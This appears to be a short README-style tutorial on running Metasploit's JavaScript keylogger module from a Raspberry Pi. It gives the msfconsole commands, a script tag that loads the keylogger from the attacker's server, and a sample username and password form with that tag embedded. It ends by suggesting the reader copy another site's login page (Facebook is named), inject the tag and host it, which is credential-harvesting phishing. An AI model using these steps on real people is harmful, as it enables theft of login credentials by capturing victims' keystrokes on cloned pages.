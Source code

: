 # Keylogging with Metasploit & Javascript

### Sources
[https://blog.rapid7.com/2012/02/21/metasploit-javascript-keylogger/](https://blog.rapid7.com/2012/02/21/metasploit-javascript-keylogger/)
[https://vulners.com/metasploit/MSF:AUXILIARY/SERVER/CAPTURE/HTTP_JAVASCRIPT_KEYLOGGER](https://vulners.com/metasploit/MSF:AUXILIARY/SERVER/CAPTURE/HTTP_JAVASCRIPT_KEYLOGGER)

### requirement
- raspberrypi 
- kali 
- metasploit

### Description
- ssh on remote pi 
	
```
ssh [USER]@[HOSTNAME] -p [PORT]
```
- run metasploit

```
msfconsole -q
use auxiliary/server/capture/http_javascript_keylogger
set demo true
set SRVPORT [SRVPORT]
set URIPATH keylog
options
run
```

- Open html demo page client side

```
http://[IP]:[SRVPORT]/keylog/demo
http://[HOSTNAME]:[SRVPORT]/keylog/demo
```
- (optional) add this line in custom html

```
<script type="text/javascript" src="http://[HOSTNAME]:[SRVPORT]/keylog/test.js"></script> 
```
example:

```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>Document</title>
</head>
<body>
  <form action="/action_page.php">
    username:<br>
    <input type="text" name="username">
    <br>
    password:<br>
    <input type="text" name="password">
    <br><br>
    <input type="submit" value="Submit">
  </form> 
<script type="text/javascript" src="http://[HOSTNAME]:[SRVPORT]/keylog/test.js"></script>
</body>
</html>
```
- (optional) Use others' ui
	- Save page locally (i.e. facebook login page)
	- Add magic tag script (see above)
	- Serve the page or push online i.e `browser-sync start --server`
